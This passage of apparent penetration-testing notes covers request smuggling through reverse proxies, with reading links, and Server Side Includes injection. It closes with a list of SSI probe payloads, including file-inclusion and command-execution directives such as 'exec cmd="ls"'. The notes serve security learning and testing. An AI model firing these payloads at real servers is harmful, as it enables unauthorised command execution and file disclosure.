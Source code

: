 ![](https://github.com/0ang3el/websocket-smuggle/raw/master/img/3-5.png)

Most reverse proxies are vulnerable to this scenario, but exploitation is contingent upon the presence of an external SSRF vulnerability, typically regarded as a low-severity issue.


## to read 
- [ ] https://www.assetnote.io/resources/research/h2c-smuggling-in-the-wild
- [ ] https://bishopfox.com/blog/h2c-smuggling-request
- [ ] https://github.com/0ang3el/websocket-smuggle


# <font color="red">Server side Inclusion/ Edge side Inclusion</font>
## SSI
SSI (Server Side Includes) are directives that are **placed in HTML pages, and evaluated on the server** while the pages are being served. They let you **add dynamically generated content** to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology. For example, you might place a directive into an existing HTML page, such as:

`<!--#echo var="DATE_LOCAL" -->`

And, when the page is served, this fragment will be evaluated and replaced with its value:

`Tuesday, 15-Jan-2013 19:28:54 EST`

The decision of when to use SSI, and when to have your page entirely generated by some program, is usually a matter of how much of the page is static, and how much needs to be recalculated every time the page is served. SSI is a great way to add small pieces of information, such as the current time - shown above. But if a majority of your page is being generated at the time that it is served, you need to look for some other solution.

You can infer the presence of SSI if the web application uses files with the extensions ** `.shtml`, `.shtm` or `.stm`**, but it's not only the case.

A typical SSI expression has the following format:



```
<!--#directive param="value" -->
```

### Check


```
// Document name
<!--#echo var="DOCUMENT_NAME" -->
// Date
<!--#echo var="DATE_LOCAL" -->

// File inclusion
<!--#include virtual="/index.html" -->
// Including files (same directory)
<!--#include file="file_to_include.html" -->
// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->
// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->
// Modification date of a file
<!--#flastmod file="index.html" -->

// Command exec
<!--#exec cmd="dir" -->
// Command exec
<!--#exec cmd="ls" -->
```